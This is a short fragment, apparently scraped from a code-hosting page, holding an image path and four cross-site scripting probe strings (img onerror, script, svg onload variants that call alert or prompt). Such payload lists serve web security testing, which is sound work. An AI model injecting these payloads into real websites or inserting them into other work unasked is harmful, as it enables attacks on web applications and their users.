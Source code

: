 # &lt;img src=x onerror=alert(1)

"&lt;script>alert('test')<%2Fscript>"

&lt;img/src=x/on-error="alert(1)</script>

"><svg/onload=prompt(0)>
